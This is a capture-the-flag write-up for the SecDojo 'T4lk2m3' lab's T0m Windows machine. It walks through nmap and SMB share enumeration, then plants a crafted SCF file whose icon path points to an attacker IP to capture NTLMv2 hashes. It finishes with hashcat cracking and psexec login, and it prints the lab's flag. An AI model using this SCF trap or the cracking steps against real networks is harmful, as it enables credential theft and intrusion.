





---
title: "SecDojo - T4lk2m3 Lab"
author: [Sesco]
subtitle: "T0m Machine Write Up"
date: "2023-01-01"
keywords: [Windows, Security, CTF, Hacking]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "243763"
titlepage-rule-color: "8ac53e"
...


# Information

- **Name:** T4lk2m3 Lab - T0m Machine
- **Profile:** SecDojo
- **Difficulty:** Medium
- **Description:** The "T4lk to m3" lab, contains two Microsoft Windows machines. To achieve access and obtain the Flags, you will have to conduct an SMB relay attack on those machines. One of those machines contains some SCF files. Learn how to use SCF files to grab juicy pieces of information.


# Enumeration

## Nmap

Initial nmap scan.

```console
$ nmap -Pn -sC -sV 172.16.4.179
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-01 15:40 UTC
Nmap scan report for 172.16.4.179
Host is up (0.00027s latency).
Not shown: 994 filtered tcp ports (no-response)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows Server 2012 R2 Standard 9600 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2023-01-01T15:42:25+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WIN-8EHFSR9B2UL
| Not valid before: 2022-12-31T15:36:07
|_Not valid after:  2023-07-02T15:36:07
| rdp-ntlm-info: 
|   Target_Name: WIN-8EHFSR9B2UL
|   NetBIOS_Domain_Name: WIN-8EHFSR9B2UL
|   NetBIOS_Computer_Name: WIN-8EHFSR9B2UL
|   DNS_Domain_Name: WIN-8EHFSR9B2UL
|   DNS_Computer_Name: WIN-8EHFSR9B2UL
|   Product_Version: 6.3.9600
|_  System_Time: 2023-01-01T15:41:45+00:00
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-01-01T15:41:45
|_  start_date: 2023-01-01T15:34:44
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: WIN-8EHFSR9B2UL, NetBIOS user: <unknown>, NetBIOS MAC: 06:0f:3a:c9:f1:64 (unknown)
| smb-os-discovery: 
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: WIN-8EHFSR9B2UL
|   NetBIOS computer name: WIN-8EHFSR9B2UL\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-01-01T15:41:45+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.01 seconds
zsh: segmentation fault  nmap -Pn -sC -sV 172.16.4.179
```

Discovered couple of ports and services one of them is SMB port, let's check the available shares.

```console
$ nmap -Pn -p 445 --script smb-enum-shares 172.16.4.179
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-01 15:48 UTC
Nmap scan report for 172.16.4.179
Host is up (0.00031s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\172.16.4.179\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\172.16.4.179\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\172.16.4.179\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\172.16.4.179\compta: 
|     Type: STYPE_DISKTREE
|     Comment: windows lab
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\172.16.4.179\deepwin: 
|     Type: STYPE_DISKTREE
|     Comment: windows lab
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\172.16.4.179\orga: 
|     Type: STYPE_DISKTREE
|     Comment: windows lab
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\172.16.4.179\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Anonymous access: READ
|_    Current user access: READ
```

So there's seven available shares and it looks like the most suspicious shares are **compta**, **deepwin** and **orga** and they can be accessed anonymously.

One of the shares has a zip file, after downloading and unzipping the file I found another file **file.scf**.



```console
$ cat file.scf
[shell]
command=2
IconFile=\\172.31.31.144\\compta\\hacked.ico
[taskbar]
Command=ToogleDesktop
```

## Exploitation

Now this is interesting the .SCF file can be used in **SMB Relay Attack** and that's because of its nature and that is when you browse to a location that contains SCF file the IconFile will be retrieved automatically.

The SMB Relay Attack requires us to set [UNC](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#:~:text=%3A%5CFY2018%5CFY2018-,UNC%20paths,well%20as%20v6%20are%20supported) path with our PWN machine IP address and in the PWN machine we'll try to listen and capture user's login credentials, and there's a module in metasploit that allow us to do that.

But before using the module we have to put our modified SCF file into the share and to do that we'll have to mount the share to one of our local folders, we can do that with this command.

```console
$ sudo mount.cifs //Attacker_IP_Adress/compta ./LocalFolder -o user=Anonymous,uid=$UID
```

```console
[shell]
command=2
IconFile=\\Our_IP_Address\\compta\\hacked.ico
[taskbar]
Command=ToogleDesktop
```

All we have to do now is start listening and browse to the compta share with `smbclient` utility.



And that's our NTLMv2 hash for Administrator user which requires cracking, and so I did with `hashcat` utility.

```console
$ hashcat -m 5600 admin_ntlmv2 /usr/share/wordlists/rockyou.txt  -o cracked.txt
```



This is our password cracked **P@ssw0rd**, let's try and login to the windows machine using `psexec.py` utility.



That's it we are in.

## Root Flag

Proof of concept.



**Flag:** **`Tom_Sesco-68dzkyr35ix5gufsp0i3zttdm44e91y8`**

## Resources

- [SCF File Attacks 1](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) 
- [SCF File Attacks 2](https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/)